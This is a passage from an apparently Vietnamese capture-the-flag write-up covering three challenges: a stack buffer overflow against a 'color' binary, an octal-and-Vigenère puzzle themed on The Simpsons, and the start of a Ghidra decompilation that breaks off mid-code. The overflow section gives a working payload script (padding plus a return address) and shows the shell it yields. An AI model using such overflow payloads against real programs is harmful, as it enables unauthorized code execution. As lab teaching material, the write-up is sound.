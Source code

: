     - Vậy ta chỉ cần nhập 52 kí tự bất kì và 4 ký tự cuối là địa chỉ của ta. Và cần lưu ý là hệ thống đang ở dạng big endian hay little endian, ở trường hợp của ta sẽ là little endian ktra qua lệnh `lscpu`.
    - Ta có thể tạo 1 file như dưới trong thư mục /tmp vì khi chuognw trình có bảo trong /tmp được phép tạo file còn các nơi khác thì ko có quyền và chạy đoạn mã đó để lấy flag:
        ```
        #/tmp/script.py

        fillWithA = "A" * 52
        address = "\x57\x86\x04\x08"
        print(fillWithA + address)

        ```
    - Và chạy lệnh :
        ```
        color@ubuntu-512mb-nyc3-01:~$ (python /tmp/script.py; cat) | ./color
        Enter your favorite color: Me too! That's my favorite color too!
        You get a shell! Flag is in flag.txt
        cat flag.txt
        flag{c0lor_0f_0verf1ow}
        ```

## The Simpsons
- Sau khi tải ảnh về và strings ra thì ta có 1 đoạn mã py này:
    ```
    Ahh! Realistically the Simpsons would use octal instead of decimal!
    encoded = 152 162 152 145 162 167 150 172 153 162 145 170 141 162
    key = chr(SolutionToDis(110 157 167 040 155 165 143 150 040 144 151 144 040 115 141 147 147 151 145 040 157 162 151 147 151 156 141 154 154 171 040 143 157 163 164 077 040 050 104 151 166 151 144 145 144 040 142 171 040 070 054 040 164 157 040 164 150 145 040 156 145 141 162 145 163 164 040 151 156 164 145 147 145 162 054 040 141 156 144 040 164 150 145 156 040 160 154 165 163 040 146 157 165 162 051))
    key = key + key + chr(ord(key)-4)
    print(DecodeDat(key=key,text=encoded))

    ```
- Do đề đã bảo và với câu này thì ta có thể chuyển bát phân thành text và ta được 2 dòng `jrjerwhzkrexar` và `How much did Maggie originally cost? (Divided by 8, to the nearest integer, and then plus four)`.
- Với đoạn kí tự đầu tiền thì chưa biết làm gì thì ta trả lời câu hỏi kia đã.
- Trong bộ phim The Simpsons thì khi đi siêu thị Maggie đã bị quét và giá là $847.63, đây là số tiền cần để nuôi 1 đứa trẻ trong 1 tháng ở năm 1989. Cùng các tính toán thì ta được số 110. Nhìn vào đoạn mã python thì ta sẽ có `key = "nnj"`.
- Rồi thì bây giờ có 1 cái cần để ý là ta có 1 đoạn mã ngắn và 1 mã dài thì khả năng cao là Vigenere Cypher và đó ta đã có flag.

## RE_verseDIS
- Sau khi tải file về thì trước hết cần cấp quyền chạy cho file đã `chmod +x problem`.
- Sau đó sẽ đọc code :)).
- Có thể dùng các tool để decompile ở đây mình sẽ sử dụng ghidra. Và sẽ có đoạn mã này ở hàm main.
    ```
    undefined8 main(void){  
        int local_10;  
        int local_c;    
        printf("Input password: ");  
        __isoc99_scanf(&DAT_001008f5,input);  
        for (local_10 = 0; local_10 < 0x16; local_10 = local_10 + 1) 
        {    
            *(int *)(key2 + (long)local_10 * 4) = (int)key[local_10];    
            msg[local_10] = (byte)*(undefined4 *)(key2 + (long)local_10 * 4) ^ (byte)*(undefined4 *)(str + (long)local_10 * 4);  
        }  
        for (local_c = 0; local_c < 0x16; local_c = local_c + 1) 
        {    